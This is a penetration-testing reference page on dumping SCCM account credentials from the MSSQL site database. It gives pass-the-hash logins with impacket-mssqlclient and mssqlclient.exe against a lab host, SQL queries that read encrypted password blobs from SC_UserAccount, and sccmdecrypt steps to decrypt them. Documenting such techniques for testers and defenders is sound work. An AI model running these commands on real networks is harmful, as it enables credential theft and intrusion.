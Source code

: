 # MSSQL Database

https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/sccm-mecm/cred-5-mssql-database

## Description

Dump credentials from the site database

Site servers are granted sysadmin roles on their respective site databases. This is default and is a requirement for SCCM to function. If the site server machine account credentials have been obtained,  this  then allows for the SC_UserAccount table to be read and obtain encrypted passwords blobs for provisioned SCCM accounts which are stored within this table. 

When this attack is performed, the encrypted data blobs must be encrypted on the site server otherwise it is not possible to decrypt them.

## Requirements

1) Site database access

2) Access to the private key used for encryption stored on the primary site server

## Linux

### 1) Authenticate to the database

    impacket-mssqlclient  -windows-auth -hashes 'aad3b435b51404eeaad3b435b51404ee:fe7f671f719978e25111c8c196662006' 'SCCMLAB/MECM$'@192.168.60.12 

### 2) Dump account credentials

##### Connect to site database, view secrets

    USE CM_[Site Code]
    SELECT UserName,Password FROM SC_UserAccount

### 3) Dump Task Sequence data

    SELECT TS_ID, Name, Sequence FROM vSMS_TaskSequencePackage

## Windows

The same attack can be repeated as above in the Linux section for Windows when using mssqlclient.exe. If using a machine account mssqlclient.exe would be the preferred way of doing this, otherwise if you have access to a user who has admin rights of the site server database then SQLRecon or PowerUPSQL should be sufficient.

### 1) Authenticate to database

    mssqlclient.exe -windows-auth -hashes "aad3b435b51404eeaad3b435b51404ee:fe7f671f719978e25111c8c196662006" "SCCMLAB/MECM$"@192.168.60.12

##### Connect to site database, view secrets

    USE CM_[Site Code]
    SELECT UserName,Password FROM SC_UserAccount

### 2) Decrypt secrets

To decrypt the data, we need to run sccmdecrypt on the main site server.

    .\sccmdecrypt.net-4.5.exe [Value]

### NOTE: Needs to be run from an administrative shell on the main site server to decrypt the strings successfully

